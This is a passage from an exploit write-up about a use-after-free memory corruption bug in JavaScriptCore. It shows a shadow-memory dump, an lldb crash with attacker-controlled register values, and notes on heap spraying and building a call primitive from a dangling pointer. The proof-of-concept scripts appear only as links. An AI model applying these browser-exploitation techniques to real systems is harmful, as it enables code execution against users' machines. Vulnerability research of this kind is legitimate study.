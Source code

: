 ```
   =>0x1c08004aeca0: fa fa fd fd fd[fd]fd fa fa fa fd fd fd fd fd fd
     0x1c08004aecb0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd
     0x1c08004aecc0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd
     0x1c08004aecd0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd
     0x1c08004aece0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd
     0x1c08004aecf0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd                   
                   
                   
after the replacment:
    print(x[0])  ===  4.191714984059889e+242                   
*/
```

here is the code to observe this pattern <a href="/reclaimcache.js">here</a><br>
And a Simple WriteWhatWhere poc, that only 'spam' the free structure can be found here <a href="/www.js">www.js</a><br>

***NOTE: we didn't really had to talk about gigacage..***

***successfull run with the later should produce:***

```c
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=EXC_I386_GPFLT)
    frame #0: 0x0000000100911758 JavaScriptCore`JSC::putByVal(JSC::ExecState*, JSC::JSValue, JSC::JSValue, JSC::JSValue, JSC::ByValInfo*) + 264
JavaScriptCore`JSC::putByVal:
->  0x100911758 <+264>: movq   0x40(%rdi), %rax
    0x10091175c <+268>: movq   %rsi, %rdi
    0x10091175f <+271>: movq   %r12, %rsi
    0x100911762 <+274>: movl   %r15d, %edx
Target 0: (jsc) stopped.
(lldb) reg r
General Purpose Registers:
       rax = 0x000000010b300000
       rbx = 0x0001414141414141
       rcx = 0x0001414141414141
       rdx = 0x0000000003230300
       rdi = 0x0361616161616161
       
```

***Continue our exploitation approach:***

<br>

another thing that i have noitced, is that some of the pointers used to point<br>
to function, while others used to point to objects.<br>
you can observe this due to access to index 0 of the object.<br>
objects with full backing storage would not result with access violation, while<br>
other objects didn't have a fast indexing type at the prototype,<br>
because of this the program would try to get the information from the cell block<br>
and we would get segfaults.<br>
those objects (after debugging) were found to be function pointers.<br>
so we can try to replace the backing storage of a dangling pointer (one of those 'objects') <br>
controlled data and call the function: <a href="/call_primitive.html">call_primitive</a><br>
NOTE: this poc require about 400mb of ram heap spray.<br>
and a couple of seconds to run, but as such its not a 100% success rate.<br>
you can achieve a 100% success rate, but that would require about 2.1gb,<br>
and some more waiting as a result. this is more reliable when opening the browser<br>
for the first time..<br>
